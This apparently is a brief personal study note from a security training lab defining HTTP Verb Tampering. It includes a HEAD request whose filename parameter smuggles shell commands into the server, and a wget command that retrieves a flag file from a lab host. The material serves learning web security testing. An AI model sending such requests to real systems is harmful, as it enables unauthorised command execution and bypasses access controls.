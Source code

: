 Related articles:
Tags: #Maneuvers 

---
# 📖 Definition: 
HTTP Verb Tampering is the action of bypassing security controls through sending a different request than the one that the web app expects.
This can happen due to misconfigurations (which will usually be found by scanners) or it can happen due to insecure code (which will not usually be found by scanners).

Whenever we work with the Headers, remember that URL Encoding is a must. 
![[Pasted image 20250208124543.png]]
HEAD /index.php?filename=file5%20touch%20test2%20cp%20%20test67 HTTP/1.1

wget --post-data "uid=15" \
     -O flag.txt \
     "http://94.237.54.116:43358/documents/flag_11dfa168ac8eb2958e38425728623c98.txt"
